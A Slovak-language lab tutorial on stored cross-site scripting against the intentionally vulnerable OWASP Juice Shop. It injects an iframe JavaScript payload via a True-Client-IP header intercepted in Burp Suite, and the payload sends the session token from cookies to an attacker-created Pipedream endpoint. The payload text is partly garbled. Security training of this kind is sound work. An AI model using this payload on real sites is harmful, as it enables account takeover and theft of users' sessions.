 # Stored cross site scripting (XSS)

### Prostredie: Juice-Shop - https://github.com/juice-shop/juice-shop#from-sources

- Pre tento typ útoku budeme potrebovať nástroj, ktorý bude zachytávať HTTP požiadavky na server, čo nám umožňuje ich zobrazenie a úpravu. Zaužívaným nástrojom pre tieto potreby je BurSuite 
  (inštalácia - https://portswigger.net/burp/releases/professional-community-2024-2-1-5?requestededition=community&requestedplatform=).
- V Juice shop aplikácií máme samostatnú obrazovku, ktorá zobrazuje poslednú IP adresu, z ktorej sme boli prihlásený. Posledná IP adresa sa získava z databázy. Pri odhlasovaní z účtu vieme odchytiť požiadavku na odhlásenie
  pomocou interceptora nástroju BurpSuite a upraviť odosielanú IP adresu, ktorá sa ukladá do databázy.
- Spustíme nástroj BurpSuite a preklikneme sa na položku "Proxy" a následne spustíme "Interceptor" (viď. príloha), ktorý odchytáva požiadavky.


![interceptor](../assets/burp_suite_interceptor.png)

- Pri odchytení požiadavky pridáme do hlavičky requestu ešte jeden atribút True-Client-IP s hodnotou

      iframe src="javascript:const headers = new Headers();headers.append(‘Content-Type‘, ‘text/p-
            lain‘);const body = test: ‘event‘,;const options = method: ‘POST‘,headers,mode: ‘cors‘,body:
            document.cookie.split(‘ ‘)[4].split(‘=‘)[1],;fetch(‘pipedream-endpoint‘,
            options);" /iframe

  a požiadavku posunieme na server.
- Vložený kód ukradne z cookie súborov aplikácie autentifkačný token a odošle ho na náš vytvorený endpoint.
- Hodnotu 'pipedream-endpoint' musíme nahradiť vlastným enpointom. Pomocou služby Pipedream musíme vygenerovať nový endpoint a jeho url adresu vložiť do funkcie. Na adrese https://pipedream.com/ si vytvor9me
  nový projekt. Po vytvorení projektu vygenerujeme endpoint a v sekcii "trigger" skopírujeme url adresu a vložíme do nášho kódu.
- Pri dalšom prihlasovaní sa pre obrazovku, kde zobrazujeme poslednú IP adresu prihlásenia úž nezobrazí IP adresa ale náš kód, ktorý odošle požidavku na náš server so session tokenom.

- Video návod sa nachádza v priečinku "video_instructions": /video_instructions/stored-xss.mp4 (https://github.com/MatusVetrik/dp-attacks-instructions/blob/main/video_instructions/stored-xss.mp4)
